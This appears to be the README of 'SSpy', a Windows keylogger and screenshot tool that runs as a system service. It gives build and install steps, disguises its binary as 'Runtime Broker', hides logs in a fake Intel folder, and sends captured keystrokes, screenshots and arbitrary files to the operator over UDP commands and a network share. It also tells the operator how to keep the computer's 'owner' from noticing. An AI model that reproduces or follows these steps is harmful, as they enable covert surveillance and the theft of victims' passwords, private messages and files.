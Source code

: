 # SSpy
**Current version: 0.32 alpha**

SSpy is a keylogger & screenshoter based on the Windows system services. Once installed as a service, he is going to capture all data provided.

Program was tested on Windows 10 and was written in Visual Studio 17.

### More about application
Application is split between 2 programs. SSpy is a base application that handle service operations such as install, remove service and he also makes sure that Spy app works correctly. When SSpy start working, he will install Spy program named `Runtime Broker`, located `C:\\Windows` folder. After installation Spy application is running by itself and its job is to handle and save all keyboard input and capture screenshot provided by user to `timestamp.txt` and `timestamp.jpg` files located at `C:\\ProgramData\\Intel\\AGS\\Temp\\Logs`. And it also listens udp message and act by messages like start or stop service, send captured data, send any data in path by message from udp message app(this is another project, I named it `ai`). Captured screens are jpeg files and file size is normally 100KB per image. You can set image quality, file size is depend on image quality. Currently jpeg image quality is 30(of 100). If it's hard to recognize captured image, increase quality to 40 or 50 or even higher. But file size will be increased.
Keystrokes are logged in timestamp.txt(e.g. 0713164723.txt). Function keys like `Enter`, `Delete`, `Arrow Up`, ... are logged with unpersand(`&`)following key name and with space(e.g. ` &Enter `, ` &Delete `, ` &Up `). alphabet and numbers and special keys(`~!@#$%^...`) are stored as character. Space is also stored as character(` `). `Enter` and `Tab` makes new line in log file. Every new line has its timestamp when first character of line is stored. Keylog file will be made newly with current timestamp if there's no keylog file in folder. If file exist, key strokes are stored to existing log file.

##### Action by Message
1 - start capture
2 - pause capture
3 - send captured data, delete after send, continue capture
4 - send captured data, delete after send, pause capture
5 - send any data in path followed argument.(e.g. `ai send xx.xx.xx.xx:80 5 d:\\foldername`)
**important note: I couldn't test with folder which its name contain space like "dev tools" or "windows 10".
if you give space, the word followed space will be set as next argument. if you need to copy even folder with space in its name, contact me.**

You are using this application at your own risk.

### Working On
- [ ] change hardcoded paths
- [ ] major improvements to Spy application
- [ ] help

### How to use this application

##### Before Compile
1. You need to share a folder with write permission
2. At other's computer, open your shared folder, enter your username and password to open. It will help Spy app to send captured data to this shared folder.
3. Replace your ip address and shared folder name in Spy project/Spy.cpp/#38: `remotepath` e.g. `\\\\192.168.1.3\\sharedfolder\\`
4. Replace capture screenshot time interval(currently it's 2 second. it means capture 1 screen in every 2 seconds)

##### Compile
Compilation is handled manually for now. To compile this program you need **Windows Vista or later and a C compiler**.
I compiled with Visual Studio 2022(17.10.4) in Windows 10.
SSpy uses wtsapi32.lib, Userenv.lib and Spy uses gdiplus.lib, ws2_32.lib, Pathcch.lib. ai uses ws2_32.lib. Add them to project property/Configuration properties/Linker/Input/Additional Dependencies. Or add `#pragma comment(lib, "ws2_32.lib") ... ` in cpp files. Some libraries might be useless, I'm not sure.

##### Install / Remove service
1. Make sure that SSpy and Spy is compiled & rebuilded and copy Spy.exe to `C:\\windows` and change file name to `Runtime Broker`(without any file extension).
2. To install service, in the folder where `SSpy.exe` exist, open CMD.exe console with Administrator permission and write `SSpy.exe install` command. You can install simply by Run as administrator `SSpy.exe`.
3. I'm not sure reboot OS is required or not. I tested without reboot but it works well.
4. After install, open service manager(Win + R, services.msc) and start `Runtime Broker Service`.
5. If firewall asks to allow app, click OK.
Service starts capture and stores captured data to `C:\\ProgramData\\Intel\\AGS\\Temp\\Logs`

There's nothing more to do. Captured data will take some capacity of hard disk, so take care to send captured data regularly or at least pause capture. Otherwise owner might detect by increasing hard disk used data capacity. one image file size is 100KB. capture 1 image per 2 second. It means 50KB/s. 50KB * 60 * 60 * 24 * 4 = 17280000KB If you didn't copy and delete captured data for 4 days, stored data size would be 17.28GB. If you take one per 5s, it will decrease to 6.912GB. hh

To uninstall service, in step 2 write command `SSpy.exe remove`

### Appendix
Check Readme in ai project to learn how to control spy app.